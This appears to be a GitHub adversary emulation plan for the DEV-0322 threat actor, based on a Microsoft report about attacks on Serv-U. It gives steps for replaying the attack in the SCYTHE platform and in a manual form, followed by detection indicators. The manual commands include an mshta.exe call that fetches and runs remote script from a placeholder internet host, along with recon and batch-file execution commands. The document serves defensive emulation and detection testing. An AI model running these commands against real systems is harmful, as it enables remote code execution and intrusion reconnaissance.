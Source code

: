 # DEV-0322 Adversary Emulation Plan

This threat is based on Microsoft Threat Intelligence Center (MSTIC) report post on July 13, 2021: https://www.microsoft.com/security/blog/2021/07/13/microsoft-discovers-threat-actor-targeting-solarwinds-serv-u-software-with-0-day-exploit/

## Emulate with SCYTHE
1. Download and import the threat in JSON format to your SCYTHE instance
2. Create a new campaign
3. Import from Existing Threat: DEV-0322
4. Launch Campaign
5. Execute from an EXE

## Emulate manually
Open a command prompt and run these commands:
- ``` C:\Windows\System32\mshta.exe http://<An Internet IP>```
- ```cmd.exe /c whoami > whoami.txt```
- ```cmd.exe /c dir > dir.txt```
- ```cmd.exe /c echo whoami > C:\Windows\Temp\Serv-U.bat```
- ```cmd.exe /c "C:\Windows\Temp\Serv-U.bat"```
- ```powershell.exe "C:\Windows\Temp\Serv-U.bat"```

## Detection & Response
- An executable spawning mshta.exe
- An executable spawning cmd.exe
- An executable spawning powershell.exe
- An executable spawning whoami
- An executable spawning dir
- mshta.exe reaching out to the internet